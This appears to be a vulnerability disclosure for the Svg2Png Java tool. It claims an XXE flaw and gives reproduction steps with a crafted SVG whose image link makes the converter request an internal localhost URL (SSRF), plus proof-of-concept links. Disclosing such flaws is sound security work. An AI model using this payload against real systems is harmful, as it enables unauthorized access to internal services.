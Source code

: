# :book: Description

 `Svg2Png` Manage your Icons in SVG and generate the needed PNG into your projects as needed. No "Web Service" needed, just an executable JAR file. this package is vulnerable to `(XXE)`.

https://github.com/sterlp/svg2png

# :recycle:  Steps To Reproduce-:  
  0) download and run latest release from https://github.com/sterlp/svg2png/releases
  1) You have to have Java 8 installed on your PC
  1) creat a payload svg or use : (this is a example of SSRF )https://drive.google.com/file/d/1jGhUXepvOV9bs_aaCThSmqloY_C1Nsj4/view?usp=sharing
  
rc3.svg
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="overflow: hidden; position: relative;" width="300" height="200">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg" stroke-width="1" id="image3204" />
<rect x="0" y="150" height="10" width="300" style="fill: black"/>
</svg>
```
  
# POC
  [gdrive](https://drive.google.com/file/d/1JNgemPOp2rqEdwjucBzM9eCfy7Wu_Z2k/view?usp=sharing)
## 💥 Impact
SSRF 
